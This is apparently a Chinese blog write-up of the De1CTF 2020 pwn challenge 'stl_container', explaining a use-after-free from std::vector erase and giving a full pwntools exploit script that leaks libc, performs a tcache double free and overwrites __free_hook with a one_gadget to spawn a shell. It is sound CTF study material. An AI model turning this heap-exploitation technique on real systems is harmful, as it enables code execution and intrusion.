 ```yaml
---
title: De1CTF 2020 PWN stl_container
date: 2020-05-05 00:00:00
categories:
- CTF/Pwn
tags: tcache STL  
---
```


> 漏洞点是：使用C++中的STL中vector存储对象的指针时，在earse清除其中元素时，总会调用最后一个对象的析构函数，最终导致存在悬空指针，并且可以被使用，即UAF。其使用的方式是可以继续free以及show其内容。

> 利用方式：本题libc版本为2.27，故可以使用构造tcache的DoubleFree完成任意地址写任意值。题目开启了全部保护，所以首先通过堆排布的手段泄露libc基址。然后通过DoubleFree覆盖libc中的__free_hook函数指针为one_gadget，并触发即可getshell。

- CTFtime: [stl_container](https://ctftime.org/task/11463)
- 题目文件: [cpp_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/cpp_attachment.zip)
- 官方WP: [stl_container](https://blog.de1ta.club/2020/05/06/de1ctf2020%20Writeup/#stl_container)

漏洞成因在做题的时候不是很明白，但是经过简单的测试以及调试就能发现打印出了奇怪的字符串，所以做题未必非要清楚漏洞成因：

- [std::vector::erase](http://www.cplusplus.com/reference/vector/vector/erase/)
- [Is destructor called when removing element from STL container?](https://stackoverflow.com/questions/3326238/is-destructor-called-when-removing-element-from-stl-container)
- [STL释放指针元素时造成的内存泄露](https://imzlp.me/posts/50773/)
- [STL源码分析之vector](http://luodw.cc/2015/10/27/STL-vec/)

```python
from pwn import *
context(arch="amd64",os ='linux',log_level='debug')
myelf = ELF("./stl_container")
libc  = ELF('./libc-2.27.so')
io    = remote("134.175.239.26",8848)
#io    = process(myelf.path,env={"LD_PRELOAD" : libc.path})

uu64        = lambda data                 :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
List        = lambda                      :  (sla(">> ",'1'))
vector      = lambda                      :  (sla(">> ",'2'))
queue       = lambda                      :  (sla(">> ",'3'))
stack       = lambda                      :  (sla(">> ",'4'))
add         = lambda data                 :  (sla(">> ",'1'),sla("data:",data))
delete      = lambda idx                  :  (sla(">> ",'2'),sla("?\n",str(idx)))
show        = lambda idx                  :  (sla(">> ",'3'),sla("?\n",str(idx)))

# full tache
vector();add("123")
vector();add("456")
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
stack();vector()
stack();vector()
queue();vector()
queue();vector()
List();delete(1)
List();delete(0)

# free chunks to unsorted bin
vector();delete(0)

# leak libc
vector();show(0)
io.recvuntil(": ")
libc_addr = uu64(io.recv(6))-0x3ebca0
log.warn(hex(libc_addr))

# clear tcache
List();add("123")
List();add("123")
queue();add("123")
queue();add("456")
stack();add("123")
stack();add("456")
vector();add("123")

# tcache double free for arbitrary address write
vector();delete(0)
vector();delete(0)

# use aaw to modify __free_hook to one_gadget
vector();add(p64(libc_addr+libc.symbols['__free_hook']))
vector();add(p64(libc_addr+0x4f322))

io.interactive()
```
